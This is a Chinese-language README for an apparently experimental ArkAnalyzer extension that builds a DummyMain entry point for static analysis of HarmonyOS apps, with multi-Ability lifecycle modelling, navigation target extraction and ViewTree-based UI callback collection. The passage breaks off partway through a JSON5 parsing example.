# 🚀 TEST_lifecycle 模块说明文档

> **扩展版生命周期建模框架**
> 
> 本模块扩展了 ArkAnalyzer 的 `DummyMainCreater`，实现多 Ability 支持和精细化 UI 回调建模。新的代码暂时放在了arkanalyzer-master\arkanalyzer-master\src\TEST_lifecycle目录下

---

## 📚 目录

1. [背景与动机](#1-背景与动机)
2. [核心概念](#2-核心概念)
3. [模块架构](#3-模块架构)
4. [文件详解](#4-文件详解)
5. [完整流程解析](#5-完整流程解析)
6. [类与函数详解](#6-类与函数详解)
7. [使用示例](#7-使用示例)
8. [TODO 与扩展点](#8-todo-与扩展点)
9. [常见问题](#9-常见问题)
10. [附录](#-附录)

---

## 1. 背景与动机

### 1.1 为什么需要 DummyMain？

在鸿蒙/Android 应用中，**没有传统意义上的 `main()` 函数**。应用的执行由系统框架驱动：

```
传统程序:
    main() → 函数A() → 函数B() → 结束

鸿蒙应用:
    系统启动 → onCreate() → onForeground() → 用户点击按钮 → onClick() → ...
    （由系统在不同时机调用不同的生命周期方法）
```

**问题**：静态分析工具需要一个入口点来遍历代码，但鸿蒙应用没有！

**解决方案**：创建一个**虚拟的 main 函数（DummyMain）**，把所有可能被调用的方法串联起来。

### 1.2 原版 DummyMainCreater 的局限

| 局限 | 说明 |
|------|------|
| **单 Ability** | 只处理单个 Scene，不支持多页面应用 |
| **无跳转建模** | 忽略 `startAbility()`、`router.pushUrl()` 等跳转 |
| **粗糙的回调收集** | 直接收集所有 `onClick` 方法，不区分属于哪个控件 |
| **未利用 ViewTree** | 没有使用已有的 UI 树解析能力 |

### 1.3 本模块的目标

```
┌─────────────────────────────────────────────────────────────┐
│                    扩展版 DummyMain                          │
├─────────────────────────────────────────────────────────────┤
│  ✅ 支持多个 Ability                                         │
│  ✅ 建模页面跳转关系（框架已有，待实现）                        │
│  ✅ 精细化 UI 回调（按控件提取）                              │
│  ✅ 整合 ViewTree 解析                                       │
│  ✅ 模块化、可配置                                           │
└─────────────────────────────────────────────────────────────┘
```

---

## 2. 核心概念

### 2.1 什么是 Ability？

**Ability** 是鸿蒙应用的基本组成单元，类似于 Android 的 Activity。

```typescript
// 一个典型的 Ability
export default class EntryAbility extends UIAbility {
    onCreate(want: Want) { /* 创建时调用 */ }
    onWindowStageCreate(windowStage: WindowStage) { /* 窗口创建 */ }
    onForeground() { /* 进入前台 */ }
    onBackground() { /* 进入后台 */ }
    onDestroy() { /* 销毁时调用 */ }
}
```

**生命周期流程**：



### 2.2 什么是 Component？

**Component** 是鸿蒙的 UI 组件，用 `@Component` 装饰器标记。

```typescript
@Entry
@Component
struct Index {
    @State message: string = 'Hello';
    
    aboutToAppear() { /* 组件即将显示 */ }
    
    build() {
        Column() {
            Text(this.message)
            Button('Click me')
                .onClick(() => {
                    this.message = 'Clicked!';  // 这就是 UI 回调
                })
        }
    }
    
    aboutToDisappear() { /* 组件即将消失 */ }
}
```

### 2.3 什么是 ViewTree？

**ViewTree** 是 ArkAnalyzer 解析 `build()` 方法后得到的 UI 组件树。

```
源代码:                          ViewTree:
Column() {                       Column
    Text('Hello')         →        ├── Text
    Button('Click')                │     └── attributes: []
        .onClick(...)              └── Button
}                                        └── attributes: [onClick]
```

### 2.4 生成的 DummyMain 长什么样？

```typescript
function @extendedDummyMain() {
    // 1. 静态初始化
    StaticClass.staticInit();
    
    // 2. 主循环（模拟非确定性执行）
    count = 0;
    while (true) {
        // 分支 1: EntryAbility 生命周期
        if (count == 1) {
            ability1 = new EntryAbility();
            ability1.onCreate(want);
            ability1.onWindowStageCreate(windowStage);
            ability1.onForeground();
        }
        
        // 分支 2: Index 组件生命周期 + UI 回调
        if (count == 2) {
            component1 = new Index();
            component1.aboutToAppear();
            component1.build();
            
            // 精细化 UI 回调
            component1.onClick_handler();  // Button 的点击回调
        }
        
        // 分支 3: 另一个 Ability...
        if (count == 3) {
            ability2 = new SecondAbility();
            // ...
        }
    }
    return;
}
```

---

## 3. 模块架构

### 3.1 文件结构

```
TEST_lifecycle/
│
├── 📄 index.ts                      # 模块入口，统一导出
│
├── 📄 LifecycleTypes.ts             # 类型定义
│   ├── AbilityLifecycleStage        # Ability 生命周期枚举
│   ├── ComponentLifecycleStage      # Component 生命周期枚举
│   ├── AbilityInfo / ComponentInfo  # 信息结构
│   └── LifecycleModelConfig         # 配置选项
│
├── 📄 AbilityCollector.ts           # 信息收集器
│   ├── collectAllAbilities()
│   ├── collectAllComponents()
│   └── analyzeNavigationTargets()
│
├── 📄 NavigationAnalyzer.ts         # 路由分析器
├── 📄 ViewTreeCallbackExtractor.ts  # UI 回调提取器
├── 📄 LifecycleModelCreator.ts      # 核心构建器 → 生成 DummyMain
│
├── 📁 taint/                        # 污点分析模块（技术细节见 taint/README.md）
│   ├── README.md                    # 污点分析技术说明（入门与各文件职责）
│   ├── TaintFact.ts                 # 污点数据结构（AccessPath, SourceContext, TaintFact）
│   ├── SourceSinkManager.ts         # Source/Sink 规则管理（HarmonyOS 资源/闭包/内存/分布式/display）
│   ├── TaintAnalysisProblem.ts      # IFDS 问题定义（继承 DataflowProblem<TaintFact>）
│   ├── TaintAnalysisSolver.ts       # IFDS 求解器 + TaintAnalysisRunner（DummyMain 入口）
│   ├── ResourceLeakDetector.ts      # 简化版方法内泄漏检测
│   └── index.ts                     # 统一导出
│
├── 📁 cli/                          # 工程化包装（详见 cli/README.md）
│   ├── LifecycleAnalyzer.ts         # 一站式分析器（生命周期 + 污点分析）
│   ├── ReportGenerator.ts          # 多格式报告生成
│   ├── cli.ts                       # 命令行入口
│   └── README.md
│
└── 📁 gui/                          # Web 可视化界面（详见 gui/README.md）
    ├── server.ts                    # HTTP 服务与 /api/analyze、/api/report
    ├── start.ts                     # 启动脚本
    └── README.md
```

### 3.2 模块依赖关系



### 3.3 数据流向



---

## 4. 文件详解

### 4.1 LifecycleTypes.ts — 类型定义

**角色**：数据结构的"蓝图"，定义了所有信息的格式。

**类比**：就像建筑图纸，规定了每个房间的尺寸和用途，但不包含实际的砖块。

#### 主要类型

```typescript
// ==================== 生命周期阶段 ====================

/**
 * Ability 生命周期阶段
 * 
 * 想象成一个人的一天：
 * - CREATE      = 起床
 * - FOREGROUND  = 开始工作
 * - BACKGROUND  = 休息
 * - DESTROY     = 睡觉
 */
enum AbilityLifecycleStage {
    CREATE = 'onCreate',
    WINDOW_STAGE_CREATE = 'onWindowStageCreate',
    FOREGROUND = 'onForeground',
    BACKGROUND = 'onBackground',
    WINDOW_STAGE_DESTROY = 'onWindowStageDestroy',
    DESTROY = 'onDestroy',
}

// ==================== 信息结构 ====================

/**
 * Ability 信息
 * 
 * 存储一个 Ability 的"身份证"
 */
interface AbilityInfo {
    arkClass: ArkClass;                    // 对应的类
    name: string;                          // 名称
    lifecycleMethods: Map<Stage, Method>;  // 生命周期方法
    components: ComponentInfo[];           // 关联的组件
    navigationTargets: NavigationTarget[]; // 可跳转的目标
    isEntry: boolean;                      // 是否是入口
}

/**
 * UI 回调信息
 * 
 * 记录"哪个控件的什么事件绑定了哪个函数"
 */
interface UICallbackInfo {
    componentType: string;      // 控件类型：Button, Text...
    eventType: UIEventType;     // 事件类型：onClick, onTouch...
    callbackMethod: ArkMethod;  // 回调方法
    relatedStateValues: [];     // 相关的状态变量
}
```

---

### 4.2 AbilityCollector.ts — 信息收集器

**角色**：项目的"普查员"，遍历所有代码，找出 Ability 和 Component。

**类比**：就像人口普查员挨家挨户登记信息。

#### 核心方法

```typescript
class AbilityCollector {
    /**
     * 收集所有 Ability
     * 
     * 工作流程：
     * 1. 遍历 Scene 中的所有类
     * 2. 判断每个类是否继承自 UIAbility
     * 3. 如果是，提取它的生命周期方法
     * 4. 返回 AbilityInfo 列表
     */
    collectAllAbilities(): AbilityInfo[] {
        for (class of scene.getClasses()) {
            if (isAbilityClass(class)) {
                // 这个类是 Ability！
                info = buildAbilityInfo(class);
                abilities.push(info);
            }
        }
        return abilities;
    }
    
    /**
     * 判断是否是 Ability 类
     * 
     * 判断依据：
     * - 直接继承 UIAbility / Ability / ...
     * - 或者祖先类继承了这些基类
     */
    private isAbilityClass(arkClass): boolean {
        // 检查父类名称
        if (['UIAbility', 'Ability'].includes(arkClass.getSuperClassName())) {
            return true;
        }
        // 检查继承链...
    }
    
    /**
     * 收集生命周期方法
     * 
     * 遍历类的所有方法，找出 onCreate, onDestroy 等
     */
    private collectAbilityLifecycleMethods(arkClass): Map<Stage, Method> {
        for (method of arkClass.getMethods()) {
            switch (method.getName()) {
                case 'onCreate':
                    methods.set(CREATE, method);
                    break;
                case 'onDestroy':
                    methods.set(DESTROY, method);
                    break;
                // ...
            }
        }
    }
}
```

#### 工作原理图



---

### 4.3 NavigationAnalyzer.ts — 路由分析器 🆕

**角色**：页面跳转的"追踪者"，分析代码中所有的路由/导航调用。

**类比**：就像交通调度员，追踪所有车辆（页面）的行驶路线（跳转关系）。

#### 什么是路由分析？

```
┌─────────────────────────────────────────────────────────────────┐
│                         路由分析图解                             │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  源代码中的跳转调用:                                              │
│                                                                 │
│  // 1. Ability 加载初始页面                                      │
│  windowStage.loadContent('pages/Index')                         │
│                     ↓                                           │
│  // 2. 页面间跳转                                                │
│  router.pushUrl({ url: 'pages/Detail' })                        │
│                     ↓                                           │
│  // 3. Ability 间跳转                                           │
│  context.startAbility({ abilityName: 'SecondAbility' })         │
│                                                                 │
│                     ↓↓↓                                         │
│                                                                 │
│  路由分析器提取出:                                                │
│  ┌─────────────────────────────────────────┐                   │
│  │  NavigationTarget[] = [                 │                   │
│  │    { target: 'pages/Index',             │                   │
│  │      type: LOAD_CONTENT },              │                   │
│  │    { target: 'pages/Detail',            │                   │
│  │      type: ROUTER_PUSH },               │                   │
│  │    { target: 'SecondAbility',           │                   │
│  │      type: START_ABILITY }              │                   │
│  │  ]                                      │                   │
│  └─────────────────────────────────────────┘                   │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

#### 支持的跳转方式

| 方法 | 用途 | 示例 |
|------|------|------|
| `loadContent` | Ability 加载初始页面 | `windowStage.loadContent('pages/Index')` |
| `pushUrl` | 页面跳转（可返回） | `router.pushUrl({ url: 'pages/Detail' })` |
| `replaceUrl` | 页面替换（不可返回） | `router.replaceUrl({ url: 'pages/Login' })` |
| `back` | 返回上一页 | `router.back()` |
| `startAbility` | 启动新 Ability | `context.startAbility(want)` |

#### 工作流程

```
┌─────────────────────────────────────────────────────────────────┐
│                    NavigationAnalyzer 工作流程                   │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  输入: ArkClass (Ability 或 Component)                          │
│         │                                                       │
│         ▼                                                       │
│  ┌─────────────────────────────────────────────────────┐       │
│  │  for (method of class.getMethods()) {               │       │
│  │      for (block of method.getCfg().getBlocks()) {   │       │
│  │          for (stmt of block.getStmts()) {           │       │
│  │              invokeExpr = stmt.getInvokeExpr();     │       │
│  │              if (invokeExpr) {                      │       │
│  │                  methodName = getMethodName();      │       │
│  │                  switch (methodName) {              │       │
│  │                      case 'loadContent': ...        │       │
│  │                      case 'pushUrl': ...            │       │
│  │                      case 'startAbility': ...       │       │
│  │                  }                                  │       │
│  │              }                                      │       │
│  │          }                                          │       │
│  │      }                                              │       │
│  │  }                                                  │       │
│  └─────────────────────────────────────────────────────┘       │
│         │                                                       │
│         ▼                                                       │
│  输出: NavigationAnalysisResult {                               │
│      initialPage: 'pages/Index',                               │
│      navigationTargets: [...],                                 │
│      warnings: [...]                                           │
│  }                                                              │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

#### 使用示例

```typescript
import { NavigationAnalyzer } from './NavigationAnalyzer';

const analyzer = new NavigationAnalyzer(scene);

// 分析一个 Ability
const result = analyzer.analyzeClass(entryAbilityClass);

console.log('初始页面:', result.initialPage);
// 输出: 初始页面: pages/Index

console.log('跳转目标:');
for (const target of result.navigationTargets) {
    console.log(`  ${target.navigationType}: ${target.targetAbilityName}`);
}
// 输出:
//   ROUTER_PUSH: pages/Index
//   ROUTER_PUSH: pages/Detail
```

#### 参数解析示意

```
┌─────────────────────────────────────────────────────────────────┐
│                     参数解析过程                                 │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  情况 1: 直接字符串（可解析 ✅）                                  │
│  ┌─────────────────────────────────────────┐                   │
│  │  windowStage.loadContent('pages/Index')  │                   │
│  │                          ↑               │                   │
│  │                    Constant 类型         │                   │
│  │                    直接提取 getValue()   │                   │
│  └─────────────────────────────────────────┘                   │
│                                                                 │
│  情况 2: 变量引用（已实现 ✅）                                    │
│  ┌─────────────────────────────────────────┐                   │
│  │  let options = { url: 'pages/Detail' };  │                   │
│  │  router.pushUrl(options);                │                   │
│  │                    ↑                     │                   │
│  │              Local 类型                  │                   │
│  │       追踪变量定义 → 查找字段赋值         │                   │
│  └─────────────────────────────────────────┘                   │
│                                                                 │
│  情况 3: 动态计算（无法静态分析 ❌）                              │
│  ┌─────────────────────────────────────────┐                   │
│  │  let page = condition ? 'A' : 'B';       │                   │
│  │  router.pushUrl({ url: page });          │                   │
│  │                        ↑                 │                   │
│  │           运行时才能确定，标记为 UNKNOWN  │                   │
│  └─────────────────────────────────────────┘                   │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

---

#### 4.3.1 extractRouterUrl() — 路由参数解析（详解）

**功能**：从 `router.pushUrl()` 或 `router.replaceUrl()` 调用中提取目标页面路径。

**为什么需要这个？**

在鸿蒙开发中，页面跳转有多种写法：

```typescript
// 写法 1: 直接传字符串（最简单）
router.pushUrl('pages/Detail');

// 写法 2: 传入对象字面量（最常见）
router.pushUrl({ url: 'pages/Detail' });

// 写法 3: 使用变量（需要追踪）
let options = { url: 'pages/Detail' };
router.pushUrl(options);

// 写法 4: 分步骤构建对象
let options: RouterOptions = {};
options.url = 'pages/Detail';
router.pushUrl(options);
```

**解析流程图**：

```
┌─────────────────────────────────────────────────────────────────┐
│                extractRouterUrl() 完整工作流程                   │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  router.pushUrl(arg)                                            │
│         │                                                       │
│         ▼                                                       │
│  ┌─────────────────────────────────────────┐                   │
│  │  判断 arg 类型                           │                   │
│  └─────────────────────────────────────────┘                   │
│         │                                                       │
│         ├─────────────────┬─────────────────┐                   │
│         ▼                 ▼                 ▼                   │
│  ┌──────────┐      ┌──────────┐      ┌──────────┐              │
│  │ Constant │      │  Local   │      │  其他    │              │
│  │ (字符串) │      │ (变量)   │      │          │              │
│  └────┬─────┘      └────┬─────┘      └────┬─────┘              │
│       │                 │                 │                    │
│       ▼                 ▼                 ▼                    │
│  直接返回值        追踪变量          返回 null                  │
│                        │                                       │
│         ┌──────────────┼──────────────┐                        │
│         ▼              ▼              ▼                        │
│  ┌────────────┐ ┌────────────┐ ┌────────────┐                 │
│  │findField   │ │递归追踪    │ │查找初始化  │                 │
│  │Assignment()│ │(如果右操作 │ │过程中的    │                 │
│  │            │ │ 数也是变量)│ │字段赋值    │                 │
│  └──────┬─────┘ └──────┬─────┘ └──────┬─────┘                 │
│         │              │              │                        │
│         └──────────────┴──────────────┘                        │
│                        │                                       │
│                        ▼                                       │
│               找到 url 字段的值                                 │
│                                                                │
└─────────────────────────────────────────────────────────────────┘
```

**核心步骤解释**：

```
步骤 1: 类型判断
────────────────────────────────────────────────────────────────
  代码: const firstArg = args[0];
  
  ┌───────────────────────────────────────────────────────────┐
  │  ArkAnalyzer 会把代码转成 IR（中间表示）                    │
  │                                                           │
  │  router.pushUrl('pages/A')                                │
  │       ↓                                                   │
  │  args[0] = Constant { value: 'pages/A', type: String }    │
  │                                                           │
  │  router.pushUrl(options)                                  │
  │       ↓                                                   │
  │  args[0] = Local { name: 'options' }                      │
  └───────────────────────────────────────────────────────────┘

步骤 2: 追踪变量定义
────────────────────────────────────────────────────────────────
  如果参数是 Local (变量)，需要找到它是在哪里被赋值的：
  
  源代码:
    let options = { url: 'pages/Detail' };  // ← 定义语句
    router.pushUrl(options);                 // ← 使用位置
  
  追踪过程:
    Local 'options'
        │
        ▼ getDeclaringStmt()
        │
    ArkAssignStmt { left: options, right: {...} }
        │
        ▼ getRightOp()
        │
    分析对象的属性

步骤 3: 查找字段赋值
────────────────────────────────────────────────────────────────
  ArkAnalyzer 会把对象字面量转成多条赋值语句：
  
  源代码:
    let options = { url: 'pages/Detail', params: {} };
    
  IR 表示:
    $temp1 = new Object()
    $temp1.url = 'pages/Detail'      ← 找到这条！
    $temp1.params = {}
    options = $temp1
  
  通过 findFieldAssignment() 遍历找到 url 字段的赋值
```

**代码示例**：

```typescript
// NavigationAnalyzer.ts 中的实现

private extractRouterUrl(invokeExpr: AbstractInvokeExpr): string | null {
    const firstArg = args[0];
    
    // 情况 1: 直接是字符串常量
    if (firstArg instanceof Constant && firstArg.getType() instanceof StringType) {
        return firstArg.getValue();  // 简单！直接返回
    }

    // 情况 2: 是变量引用
    if (firstArg instanceof Local) {
        return this.extractUrlFromLocalObject(firstArg);  // 需要追踪
    }

    return null;
}

private findFieldAssignment(local: Local, fieldName: string): string | null {
    // 遍历该变量被使用的所有语句
    for (const stmt of local.getUsedStmts()) {
        if (stmt instanceof ArkAssignStmt) {
            const leftOp = stmt.getLeftOp();
            
            // 检查是否是 obj.url = 'xxx' 形式
            if (leftOp instanceof ArkInstanceFieldRef) {
                if (leftOp.getBase().getName() === local.getName() 
                    && leftOp.getFieldName() === fieldName) {
                    // 找到了！返回右边的值
                    const rightOp = stmt.getRightOp();
                    if (rightOp instanceof Constant) {
                        return rightOp.getValue();
                    }
                }
            }
        }
    }
    return null;
}
```

---

#### 4.3.2 extractWantTarget() — Want 对象解析（详解）

**功能**：从 `context.startAbility(want)` 调用中提取目标 Ability 名称。

**什么是 Want？**

Want 是鸿蒙中用于跨 Ability 通信的数据结构，类似于 Android 的 Intent：

```typescript
// Want 对象结构
let want: Want = {
    bundleName: 'com.example.app',    // 应用包名
    abilityName: 'SecondAbility',      // 目标 Ability 名称  ← 我们要提取这个
    parameters: {                       // 传递的参数
        key1: 'value1'
    }
};

// 启动目标 Ability
this.context.startAbility(want);
```

**解析难点**：

```
┌─────────────────────────────────────────────────────────────────┐
│                    为什么解析 Want 比较难？                       │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  写法多样：                                                      │
│                                                                 │
│  ① 对象字面量                                                   │
│     this.context.startAbility({                                 │
│         abilityName: 'SecondAbility'                            │
│     });                                                         │
│                                                                 │
│  ② 变量传递                                                     │
│     let want = { abilityName: 'SecondAbility' };                │
│     this.context.startAbility(want);                            │
│                                                                 │
│  ③ 分步构建                                                     │
│     let want: Want = {};                                        │
│     want.bundleName = 'com.example.app';                        │
│     want.abilityName = 'SecondAbility';  ← 需要找到这行         │
│     this.context.startAbility(want);                            │
│                                                                 │
│  ④ 动态计算（无法静态分析）                                      │
│     let abilityName = getAbilityName();  // 运行时才知道        │
│     this.context.startAbility({ abilityName });                 │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

**解析流程图**：

```
┌─────────────────────────────────────────────────────────────────┐
│              extractWantTarget() 工作流程                        │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  context.startAbility(want)                                     │
│         │                                                       │
│         ▼                                                       │
│  want 参数是什么类型？                                           │
│         │                                                       │
│         └──────────────────┐                                    │
│                            ▼                                    │
│                     ┌──────────┐                                │
│                     │  Local   │                                │
│                     │ (变量)   │                                │
│                     └────┬─────┘                                │
│                          │                                      │
│         ┌────────────────┼────────────────┐                     │
│         ▼                ▼                ▼                     │
│  ┌────────────┐   ┌────────────┐   ┌────────────┐              │
│  │ 方法1:     │   │ 方法2:     │   │ 方法3:     │              │
│  │ findField  │   │ 从初始化   │   │ 回退方案   │              │
│  │ Assignment │   │ 过程查找   │   │ (变量名)   │              │
│  │ ()         │   │            │   │            │              │
│  └──────┬─────┘   └──────┬─────┘   └──────┬─────┘              │
│         │                │                │                     │
│         ▼                ▼                ▼                     │
│    找到 abilityName 字段的字符串值                               │
│         │                                                       │
│         ▼                                                       │
│    返回 "SecondAbility"                                         │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

**实际代码流程**：

```typescript
// 源代码
let want: Want = {};
want.bundleName = 'com.example.app';
want.abilityName = 'SecondAbility';
this.context.startAbility(want);

// ArkAnalyzer 转成的 IR（简化）
//
// Stmt 1: $temp = new Object()
// Stmt 2: want = $temp
// Stmt 3: want.bundleName = 'com.example.app'
// Stmt 4: want.abilityName = 'SecondAbility'   ← 我们要找这条
// Stmt 5: $temp2 = this.context
// Stmt 6: invoke $temp2.startAbility(want)     ← 从这里开始追踪

// 追踪过程：
//   1. startAbility 的参数是 want (Local)
//   2. 遍历 want 的 usedStmts
//   3. 找到 Stmt 4: want.abilityName = 'SecondAbility'
//   4. 检查 leftOp 是 ArkInstanceFieldRef，fieldName 是 'abilityName'
//   5. 提取 rightOp 的值: 'SecondAbility'
```

---

#### 4.3.3 checkIsEntryAbility() — 入口 Ability 识别（详解）

**功能**：判断一个 Ability 是否是应用的入口（启动时第一个运行的 Ability）。

**为什么需要识别入口？**

```
┌─────────────────────────────────────────────────────────────────┐
│                    DummyMain 需要知道从哪里开始                   │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  一个应用可能有多个 Ability:                                     │
│                                                                 │
│    MyApp                                                        │
│    ├── EntryAbility      ← 入口！用户点击图标时启动这个          │
│    ├── SettingsAbility                                          │
│    └── ShareAbility                                             │
│                                                                 │
│  DummyMain 必须从入口 Ability 开始模拟：                         │
│                                                                 │
│    @extendedDummyMain() {                                       │
│        // 首先启动入口 Ability                                  │
│        EntryAbility.onCreate();       ← 入口必须第一个          │
│        EntryAbility.onWindowStageCreate();                      │
│        ...                                                      │
│        // 后续可能跳转到其他 Ability                            │
│        if (...) SettingsAbility.onCreate();                     │
│    }                                                            │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

**如何确定入口？**

鸿蒙应用的入口配置在 `module.json5` 文件中：

```json5
// entry/src/main/module.json5
{
  "module": {
    "name": "entry",
    "type": "entry",
    "mainElement": "EntryAbility",     // ← 这里指定了入口！
    "abilities": [
      {
        "name": "EntryAbility",
        "srcEntry": "./ets/entryability/EntryAbility.ets",
        "exported": true
      },
      {
        "name": "SettingsAbility",
        "srcEntry": "./ets/settingsability/SettingsAbility.ets"
      }
    ]
  }
}
```

**实现流程图**：

```
┌─────────────────────────────────────────────────────────────────┐
│               checkIsEntryAbility() 完整工作流程                 │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  【初始化阶段 - 构造函数中执行一次】                              │
│                                                                 │
│  ┌────────────────────────────────────────────────────────┐    │
│  │  loadModuleConfigs()                                    │    │
│  │         │                                               │    │
│  │         ▼                                               │    │
│  │  findModuleJsonFiles(projectDir)                        │    │
│  │         │                                               │    │
│  │         ▼                                               │    │
│  │  递归搜索所有 module.json5 文件                          │    │
│  │  (深度限制 5 层，跳过 node_modules)                      │    │
│  │         │                                               │    │
│  │         ▼                                               │    │
│  │  ┌──────────────────────────────────────────────┐      │    │
│  │  │  找到的文件列表:                              │      │    │
│  │  │  - entry/src/main/module.json5               │      │    │
│  │  │  - feature/src/main/module.json5             │      │    │
│  │  └──────────────────────────────────────────────┘      │    │
│  │         │                                               │    │
│  │         ▼                                               │    │
│  │  parseModuleJson(filePath)                              │    │
│  │         │                                               │    │
│  │         ▼                                               │    │
│  │  ┌──────────────────────────────────────────────┐      │    │
│  │  │  解析结果:                                    │      │    │
│  │  │  {                                            │      │    │
│  │  │    moduleName: 'entry',                       │      │    │
│  │  │    mainElement: 'EntryAbility', ← 缓存这个   │      │    │
│  │  │    abilities: [...]                           │      │    │
│  │  │  }                                            │      │    │
│  │  └──────────────────────────────────────────────┘      │    │
│  │         │                                               │    │
│  │         ▼                                               │    │
│  │  entryAbilityNames.add('EntryAbility')                 │    │
│  │                                                         │    │
│  └────────────────────────────────────────────────────────┘    │
│                                                                 │
│  【判断阶段 - 每次调用】                                         │
│                                                                 │
│  ┌────────────────────────────────────────────────────────┐    │
│  │  checkIsEntryAbility(arkClass)                          │    │
│  │         │                                               │    │
│  │         ▼                                               │    │
│  │  className = arkClass.getName()                         │    │
│  │         │                                               │    │
│  │         ▼                                               │    │
│  │  ┌───────────────────────┐                             │    │
│  │  │ entryAbilityNames     │                             │    │
│  │  │ 是否包含 className？   │                             │    │
│  │  └───────────┬───────────┘                             │    │
│  │              │                                          │    │
│  │      ┌───────┴───────┐                                 │    │
│  │      ▼               ▼                                 │    │
│  │   ┌─────┐         ┌─────┐                              │    │
│  │   │ 是  │         │ 否  │                              │    │
│  │   └──┬──┘         └──┬──┘                              │    │
│  │      │               │                                 │    │
│  │      ▼               ▼                                 │    │
│  │  return true    如果未加载配置:                         │    │
│  │                 用启发式方法                             │    │
│  │                 (名称包含 Entry/Main)                   │    │
│  │                                                         │    │
│  └────────────────────────────────────────────────────────┘    │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

**JSON5 解析细节**：

```typescript
// module.json5 可能包含注释，需要处理
{
  "module": {
    "name": "entry",
    // 这是入口 Ability
    "mainElement": "EntryAbility",  /* 主入口 */
    "abilities": [...]
  }
}

// 解析代码
private parseModuleJson(filePath: string): ModuleConfig | null {
    const content = fs.readFileSync(filePath, 'utf-8');
    
    // 移除 JSON5 注释
    const jsonContent = content
        .replace(/\/\/.*$/gm, '')        // 移除 // 注释
        .replace(/\/\*[\s\S]*?\*\//g, ''); // 移除 /* */ 注释
    
    const parsed = JSON.parse(jsonContent);
    
    return {
